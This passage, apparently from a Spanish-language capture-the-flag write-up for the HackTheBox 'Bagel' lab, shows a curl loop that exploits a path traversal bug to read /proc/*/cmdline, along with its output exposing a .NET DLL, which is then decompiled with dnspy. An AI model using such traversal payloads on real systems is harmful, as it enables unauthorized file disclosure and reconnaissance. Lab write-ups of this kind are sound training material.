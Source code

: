 ```shell
>for i in $(seq 800 900); do echo "$(sudo curl -s -k -L --output - "http://bagel.htb:8000/?page=../../../../../../../../proc/$i/cmdline") > $i";done
/usr/sbin/NetworkManager--no-daemon > 889
File not found > 890
File not found > 891
/usr/sbin/NetworkManager--no-daemon > 892
File not found > 893
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll > 894
File not found > 895
python3/home/developer/app/app.py > 896
/usr/sbin/irqbalance--foreground > 897
/usr/sbin/mcelog--daemon--foreground > 898
/usr/lib/polkit-1/polkitd--no-debug > 899
n/usr/sbin/irqbalance--foreground > 900
```
En el proceso 894 nos encontramos con el archivo, procedemos a descargarlo y utilizamos dnspy para obtener más información de este dll.

![imagen3](/assets/images/Bagel/bagel3.png)
